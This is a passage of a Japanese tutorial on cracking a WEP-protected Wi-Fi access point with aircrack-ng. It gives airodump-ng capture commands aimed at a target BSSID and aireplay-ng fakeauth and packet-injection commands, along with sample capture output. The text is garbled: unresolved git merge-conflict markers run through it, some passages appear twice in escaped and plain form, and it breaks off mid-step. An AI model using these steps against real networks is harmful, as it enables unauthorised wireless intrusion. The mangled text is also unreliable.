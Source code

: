 -----
 CH  1 ][ Elapsed: 30 s ][ 2007-05-24 11:40

 BSSID              PWR  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
=======
　そして、今度はAPを探すためでなく、airodump\-ngをターゲットAPのパケットキ
ャプチャのために使っていきます。「airodump\-ng \-\-bssid <ターゲットAPのBSS
ID> \-\-c <ターゲットAPのチャンネル> \-w <キャプチャファイル名> <使用するNI
C>」で実行できますので、今回は「airodump\-ng \-\-bssid 00:11:22:33:44:55 \-\-c
 1 \-w /tmp/wep ath1」と入力することにします。キャプチャファイル名の末尾に
は「\-01.cap」や「\-02.cap」などが自動的にくっつきます。

\-\-\-\-\-
 CH  1 ][ Elapsed: 30 s ][ 2007\-05\-24 11:40

 BSSID              PWR  Beacons    \#Data, \#/s  CH  MB  ENC  CIPHER AUTH ESSID
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

 00:11:22:33:44:55   61      342       36    0   1  54  WEP  WEP         niceboat

 BSSID              STATION            PWR  Lost  Packets  Probes

 00:11:22:33:44:55  AA:BB:CC:DD:EE:FF   55     0       63  niceboat
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　ここで雅な人はお気づきだと思いますが、普通にネットサーフィン（死語）し
ただけではゴーホームしたいぐらい全然まったくIVを頂くことができないコトが
わかります。なんだよどーすんだよ放置プレイかよ苦手だよなどといった心配し
<<<<<<< HEAD
ちゃうかもしれませんが、こんなこともあろうかとAircrack-ngタンには「airepla
y-ng」というものが装備されています。なななんとコイツはこっちから能動的に
パケットを大量発生させるコト（パケットインジェクション）ができちゃうんで
す！　すげえ！

　さて、いつまでたっても増えない#Dataを見ていたってしょうがないので、さっ
そくパケットインジェクションを実行していきましょう。
　airodump-ngを動かしつつ、新しいターミナルを開いて「aireplay-ng -1 <何秒
ごとに実行するか> -a <ターゲットAPのBSSID> -h <使用するNICのMACアドレス> 
-e <ターゲットAPのESSID> <使用するNIC>」と入力し、ターゲットAPにfakeauth
（ターゲットAPとNICの関連付け）をします。使用するNICのMACアドレスはiwcof
igコマンドで確認しておいてください。

-----
# iwconfig
=======
ちゃうかもしれませんが、こんなこともあろうかとAircrack\-ngタンには「airepla
y\-ng」というものが装備されています。なななんとコイツはこっちから能動的に
パケットを大量発生させるコト（パケットインジェクション）ができちゃうんで
す！　すげえ！
